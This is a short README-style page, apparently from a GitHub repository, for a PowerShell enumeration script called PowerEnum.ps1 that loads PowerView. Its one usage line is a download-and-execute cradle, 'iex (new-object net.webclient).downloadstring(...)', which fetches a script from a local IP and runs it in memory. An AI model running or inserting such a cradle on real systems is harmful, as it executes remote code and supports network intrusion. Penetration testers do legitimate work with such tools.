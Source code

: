 # Name
PowerEnum.ps1

## Usage
```
# Change the IP to load PowerView.ps1 in Line 17

iex (new-object net.webclient).downloadstring('http://192.168.45.218/PowerEnum.ps1')
```

## Source
n000b3r

